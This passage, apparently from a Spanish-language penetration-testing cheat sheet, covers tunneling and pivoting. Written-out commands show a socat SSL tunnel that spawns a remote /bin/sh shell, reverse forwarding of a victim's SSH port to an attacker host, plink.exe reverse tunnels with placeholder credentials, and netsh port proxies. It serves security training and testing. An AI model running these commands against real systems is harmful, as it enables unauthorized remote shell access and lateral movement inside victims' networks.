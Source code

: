### Túnel SSL con Socat

**Consola /bin/sh**

Crear certificados en ambos lados: Cliente y Servidor
```bash
# Execute these commands on both sides
FILENAME=socatssl
openssl genrsa -out $FILENAME.key 1024
openssl req -new -key $FILENAME.key -x509 -days 3653 -out $FILENAME.crt
cat $FILENAME.key $FILENAME.crt >$FILENAME.pem
chmod 600 $FILENAME.key $FILENAME.pem
```

```bash
attacker-listener> socat OPENSSL-LISTEN:433,reuseaddr,cert=server.pem,cafile=client.crt EXEC:/bin/sh
victim> socat STDIO OPENSSL-CONNECT:localhost:433,cert=client.pem,cafile=server.crt
```
### Puerto a Puerto Remoto

Conecta el puerto SSH local (22) al puerto 443 del host atacante
```bash
attacker> sudo socat TCP4-LISTEN:443,reuseaddr,fork TCP4-LISTEN:2222,reuseaddr #Redirect port 2222 to port 443 in localhost
victim> while true; do socat TCP4:<attacker>:443 TCP4:127.0.0.1:22 ; done # Establish connection with the port 443 of the attacker and everything that comes from here is redirected to port 22
attacker> ssh localhost -p 2222 -l www-data -i vulnerable #Connects to the ssh of the victim
```
## Plink.exe

Es como una versión de consola de PuTTY (las opciones son muy similares a las de un cliente ssh).

Dado que este binario se ejecutará en la víctima y es un cliente ssh, necesitamos abrir nuestro servicio ssh y puerto para poder tener una conexión inversa. Luego, para reenviar solo un puerto accesible localmente a un puerto en nuestra máquina:
```bash
echo y | plink.exe -l <Our_valid_username> -pw <valid_password> [-p <port>] -R <port_ in_our_host>:<next_ip>:<final_port> <your_ip>
echo y | plink.exe -l root -pw password [-p 2222] -R 9090:127.0.0.1:9090 10.11.0.41 #Local port 9090 to out port 9090
```
## Windows netsh

### Puerto a puerto

Necesitas ser un administrador local (para cualquier puerto)
```bash
netsh interface portproxy add v4tov4 listenaddress= listenport= connectaddress= connectport= protocol=tcp
# Example:
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=4444 connectaddress=10.10.10.10 connectport=4444
# Check the port forward was created:
netsh interface portproxy show v4tov4
# Delete port forward
netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=4444
```
## SocksOverRDP & Proxifier
